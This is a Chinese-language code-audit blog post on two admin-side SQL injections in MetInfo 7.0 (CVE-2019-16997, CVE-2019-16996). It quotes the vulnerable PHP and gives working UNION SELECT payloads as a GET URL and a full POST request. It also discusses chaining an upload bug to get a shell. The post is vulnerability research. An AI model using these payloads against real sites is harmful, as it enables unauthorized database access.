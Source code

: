 ```yaml
---
title: "Metinfo7 后台注入及一些tips"
date: 2019-09-28T22:11:39+08:00
draft: false
tags: ['code']
categories: ['代码审计']
---
```


很可惜是个后台的注入

<!--more-->

跟汤姆表哥再搞创宇的年度任务🤒，昨天发了metinfo6.2.0的组合拳，今天看了看官网有最新版的7.0，就下下来看了看，发现两枚注入，而且昨天的组合拳虽然增加了后缀校验，绕不过去了，呜呜呜。

## sql injection 1

全局搜索`where`

app/system/parameter/include/class/parameter_op.class.php:165

```php
public function paratem($listid = '',$module = '',$class1 = '',$class2 = '',$class3 = ''){
    global $_M;

    $paralist = $this->get_para_list($module,$class1,$class2,$class3);
    foreach ($paralist as $key => $para) {
        $list = $this->parameter_database->get_parameters($module,$para['id']);
        $paralist[$key]['list'] = $list;
        if($para['type'] ==4 || $para['type'] ==2 || $para['type'] ==6){
            $values = array();
            foreach ($list as $val) {
                $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND info = '{$val['id']}' AND lang = '{$_M['lang']}'";
                $para_value = DB::get_one($query);
                if($para_value){
                    $values[] = $para_value['info'];
                }
            }
            $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND lang = '{$_M['lang']}'";
            $para_value = DB::get_one($query);
            $values = $para_value['info'];
        }else{
            $query = "SELECT * FROM {$_M['table']['plist']} WHERE listid = {$listid} AND paraid={$para['id']} AND module={$module} AND lang = '{$_M['lang']}'";
            $para_value = DB::get_one($query);
            $values = $para_value['info'];
        }


        if(is_array($values)){
            $paralist[$key]['value'] = implode('|', $values);
        }else{
            $paralist[$key]['value'] = $values;
        }
    }
    return $paralist;
    ##require PATH_WEB.'app/system/include/public/ui/admin/paratype.php';
}
```

发现`{$listid}`直接被拼接进sql语句，且`listid`是函数直接传进来的参数，搜索哪些函数调用了这个函数

![20190928221736](https://y4er.com/img/uploads/20190928221736.png)

app/system/product/admin/product_admin.class.php:171

```php
public function dopara() {
    global $_M;
    if($_M['form']['app_type']=='shop'){
        $class1 = $_M['form']['class1'];
        $class2 = $_M['form']['class2'];
        $class3 = $_M['form']['class3'];
        $paralist = $this->para_op->paratem($_M['form']['id'],$this->module,$class1,$class2,$class3);
        require PATH_WEB . 'app/system/include/public/ui/admin/paratype.php';
    }else{
        parent::dopara();
    }
}
```

`$_M['form']['id']`可控，那么sql语句就可控。

payload

```
http://php.local/admin/?n=product&c=product_admin&a=dopara&app_type=shop&id=2 union SELECT 1,2,3,user(),5,6,7 limit 5,1  -- +
```

## sql injection 2

app/system/language/admin/language_general.class.php:108

```php
public function doget_admin_pack($appno,$site,$editor)
{
    global $_M;
    $sql = $appno ? "AND app = {$appno}" : '';
    $language_data = array();
    if ($site == 'admin') {
        $query = "SELECT name,value FROM {$_M['table']['language']} WHERE lang='{$editor}' AND site ='1' {$sql}";
        $language_data = DB::get_all($query);
        $lang_pack_url = PATH_WEB . 'cache/language_admin_' . $editor . '.ini';
    } else if ($site == 'web') {
        $query = "SELECT name,value FROM {$_M['table']['language']} WHERE lang='{$editor}' AND site ='0' {$sql}";
        $language_data = DB::get_all($query);
        $lang_pack_url = PATH_WEB . 'cache/language_web_' . $editor . '.ini';
    }

    foreach ($language_data as $key => $val) {
        file_put_contents($lang_pack_url, $val['name'] . '=' . $val['value'] . PHP_EOL, FILE_APPEND);
    }
}
```

`$appno`直接拼接 当`site`等于web或者admin时造成sql注入

找下有没有调用这个函数传参的

app/system/language/admin/language_general.class.php:90

```php
public function doExportPack()
{
    global $_M;

    if (!isset($_M['form']['editor']) || !$_M['form']['editor']) {
        $this->error($_M['word']['js41']);
    }

    $editor = $_M['form']['editor'];
    $site = isset($_M['form']['site']) ? $_M['form']['site'] : '';
    $appno = $_M['form']['appno'] ? $_M['form']['appno'] : '';
    $filename = PATH_WEB . 'cache/language_' . $site . '_' . $editor . '.ini';

    delfile($filename);

    //获取后台语言包
    $this->doget_admin_pack($appno,$site,$editor);

    $filename = realpath($filename);
    header("");
    Header("Content-type:  application/octet-stream ");
    Header("Accept-Ranges:  bytes ");
    Header("Accept-Length: " . filesize($filename));
    header("Content-Disposition:  attachment;  filename=language_{$site}_" . $appno .'_'. $editor . ".ini");
    //写日志
    $log_name = $_M['form']['site'] ? 'langadmin' : 'langweb';
    logs::addAdminLog($log_name,'language_outputlang_v6','jsok','doExportPack');
    readfile($filename);
}
```

看下代码，首先要传递参数`editor`跳出第一个if语句块，然后`site`和`appno`直接传入`doget_admin_pack()`函数，参数都可控，妥妥的注入。

payload

```http
POST /admin/?n=language&c=language_general&a=doExportPack HTTP/1.1
Host: php.local
Content-Length: 58
Origin: http://php.local
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: XDEBUG_SESSION=PHPSTORM; PHPSESSID=40d2af28a4c309bbb824dc957af59b11; arrlanguage=metinfo; re_url=http%3A%2F%2Fphp.local%2Fadmin%2F; met_auth=65acz4xG7IkP%2BqmPuO%2FIvPsKt4luK6Te34p%2F2BHXEosgKHUwk8dKQRHs7y4Ea9mCH1egudtuz%2Bl02L3eIhMLs7%2FDMw; met_key=PLBqK9J; page_iframe_url=http%3A%2F%2Fphp.local%2Findex.php%3Flang%3Dcn%26pageset%3D1
Connection: close

appno= 1 union SELECT user(),database()&editor=cn&site=web
```

![20190928223704](https://y4er.com/img/uploads/20190928223704.png)

## 组合拳

在前文中提到了metinfo6.2.0配合注入getshell的姿势，但是在metinfo7.0中增加了后缀校验，无法getshell，很可惜。

app/system/include/class/web.class.php:757

```php
if (stristr($filename, '.php')) {
    jsoncallback(array('suc' => 0));
}
```

但是这个点仍然可以上传其他后缀的文件，通过这个点配合解析漏洞或者文件包含来getshell未免不可行。

想到了htaccess和.user.ini的同学别费力气了，写文件没办法换行，如果有师傅有新姿势，欢迎评论指点啊！

## 总结

metinfo7.0的注入实际上还有很多，不过很多都是delete型的注入，我在这里挑了两个回显的注入，欢迎师傅们补充交流。

CVE-2019-16997
CVE-2019-16996

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**